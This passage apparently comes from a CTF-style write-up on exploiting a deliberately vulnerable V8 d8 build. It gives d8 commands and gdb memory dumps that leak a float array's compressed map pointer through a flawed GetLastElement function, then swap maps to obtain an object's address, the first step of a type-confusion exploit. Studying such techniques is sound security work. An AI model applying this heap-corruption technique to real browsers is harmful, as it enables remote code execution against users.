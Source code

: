 To find it’s address, I’m going to start with a float array. It’s map will be `PACKED_DOUBLE_ELEMENTS`:

```

d8> var arr = [1.1];
undefined
d8> %DebugPrint(arr)
0x3ecd080889b9 <JSArray[1]>
[1.1]

```

I can leak that map (and the properties as I get 64-bits, but the map pointer is compressed to 32-bits) using the `GetLastElement` function:

```

d8> ftoi(arr.GetLastElement()).toString(16);
"80406e908241909"   <-- low word is map, high is props
d8> ^C
Thread 1 "d8" received signal SIGINT, Interrupt.
__GI___libc_read (nbytes=0x400, buf=0x55a7e1620250, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
26      ../sysdeps/unix/sysv/linux/read.c: No such file or directory.
gef➤  x/4xw 0x3ecd080889b9-1
0x3ecd080889b8: 0x08241909      0x080406e9      0x080889a9      0x00000002

```

I’ll save that, as I’ll need it:

```

d8> var float_map = ftoi(arr.GetLastElement());
undefined

```

I don’t have a good way to leak a map of an array with a single object in it (remember the vulnerable function is only for arrays). But through some analysis in `gdb`, it looks like that maps is always 0x50 bytes past the map for `[1.1]`. Knowing that, I can change the map, and then put the object I’m targeting into this array:

```

d8> arr.SetLastElement(itof(float_map+0x50n));
undefined
d8> arr[0] = obj;
{findme: 1}

```

The elements address doesn’t change, and the object address pointer now overwrites the high bytes of the old 1.1 value:

```

d8> ^C
Thread 1 "d8" received signal SIGINT, Interrupt.
__GI___libc_read (nbytes=0x400, buf=0x55a7e1620250, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
26      in ../sysdeps/unix/sysv/linux/read.c
gef➤  x/8xw 0x3ecd080889a9-1
0x3ecd080889a8: 0x08040a3d      0x00000002      0x0808823d      0x3ff19999  <-- FixedArray: map, len, pointer, garbage
0x3ecd080889b8: 0x08241959      0x080406e9      0x080889a9      0x00000002  <-- JSArray: map, props, elements, len

```
